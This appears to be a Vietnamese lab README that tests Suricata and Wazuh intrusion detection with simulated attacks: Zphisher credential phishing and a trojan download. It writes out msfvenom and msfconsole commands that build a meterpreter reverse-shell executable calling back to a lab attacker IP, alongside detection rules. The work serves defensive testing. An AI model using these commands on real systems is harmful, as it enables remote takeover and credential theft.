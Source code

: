 Dưới đây là 1 số kịch bản tấn công để kiểm tra hệ thống giám sát phát hiện xâm nhập có hoạt động hiệu quả  
Các rule được triển khai cho các kịch bản:  
![Rule set](Image/Ruleset.png)  
  
## Kịch bản 1: tấn công Phising
Mục tiêu:  
- Thu thập trái phép thông tin xác thực (username và password) của người dùng.
- Mô phỏng tấn công xã hội nhằm đánh giá khả năng nhận diện các mối đe dọa của người dùng nội bộ.
- Ghi nhận các hành vi đáng ngờ và cảnh báo khi có truy cập đến các miền/phương thức tunneling thường dùng trong phishing.
  
Dùng công cụ Zphiser để tấn công vào máy nạn nhân  
Zphiser sẽ tạo trang web giả mạo để dụ nạn nhân điền thông tin quan trọng như username, password  
Khi nạn nhân điền xong thông tin thì sẽ được gửi qua máy nạn nhân  
  
Rule để cảnh báo:  
alert tls any any -> any any (msg:"[HUNTING] Phising detect"; tls_sni; content:"trycloudflare.com"; nocase; classtype:policy-violation; sid:4000002; rev:1;)  
  
Giải thích rule:  
- tls_sni: kiểm tra trường SNI (Server Name Indication) trong TLS handshake  
- content:"trycloudflare.com": phát hiện người dùng đang truy cập vào miền này (thường dùng để ẩn IP thật khi phishing)  
- nocase: không phân biệt chữ hoa/thường  
- classtype:policy-violation: vi phạm chính sách (truy cập tên miền bị cấm)
  
Phía suricata  
  
Phía Wazuh  
  
## Kịch bản 2: tấn công truyền mã độc
Mục tiêu:
- Tấn công vào người dùng khi truy cập khởi  động  
- Tạo một ứng dụng uy tín đánh lừa người dùng tải về
  
Tạo payload trojan.exe để lừa người dùng tải xuống:  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.2 LPORT=4444 -f exe > trojan.exe  
msfconsole  
use exploit/multi/handler  
set payload windows/x64/meterpreter/reverse_tcp  
set LHOST 192.168.119.2 ( máy tấn công )  
set LPORT 4444  
exploit  

Mở port 80
  
Máy nạn nhân sẽ truy cập 192.168.119.2:4444/trojan.exe → tự động tải mã độc về 

  
Rule cảnh báo:  
alert http any any -> any any (msg:"[Trojan EXE Download Detected - MZ Header]"; flow: to_client, established; file_data; content:"MZ"; depth:2; classtype:trojan-ac tivity; sid:1002005; rev:1;)  
  
Giải thích rule:  
- file_data: cho phép Suricata kiểm tra nội dung file trong HTTP response  
- content:"MZ": MZ là chữ ký đầu tiên của file .exe (Windows executable)  
- depth:2 : chỉ kiểm tra 2 byte đầu tiên của file  
- flow: to_client: dữ liệu từ server trả về client  
- classtype:trojan-activity: hoạt động phần mềm độc hại
  
Phía suricata  

Phía Wazuh
  
## Kịch bản 3: tấn công web
Mục tiêu:
- Truy cập trái phép vào thông tin nội bộ  
- Thực hiện các hành vi khai thác lỗ hổng bảo mật ứng dụng web
- Kiểm tra mức độ phòng thủ và phát hiện của hệ thống giám sát
  
### SQL injection

### XSS (Reflected, Restored)

### Brute Force
